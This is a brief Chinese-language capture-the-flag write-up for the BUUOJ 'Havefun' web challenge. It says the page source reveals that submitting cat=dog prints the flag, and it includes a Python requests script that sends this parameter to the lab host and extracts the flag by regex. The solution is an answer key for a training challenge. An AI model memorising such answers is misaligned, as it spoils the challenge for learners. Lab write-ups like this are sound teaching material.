

# 分析

来自[[极客大挑战 2019]Havefun](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Havefun)

一看没啥功能的页面，F12查看源代码，



发现只需要提交参数cat，且参数等于dog，则打印flag，payload=`http://017e6dae-934b-4992-9089-7f76f0aa8441.node5.buuoj.cn:81/?cat=dog`


# exp

```python
import requests
import re

url = "http://017e6dae-934b-4992-9089-7f76f0aa8441.node5.buuoj.cn:81/"
params = {
    'cat': "dog",
}
res = requests.get(url, params=params)
if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = r"flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

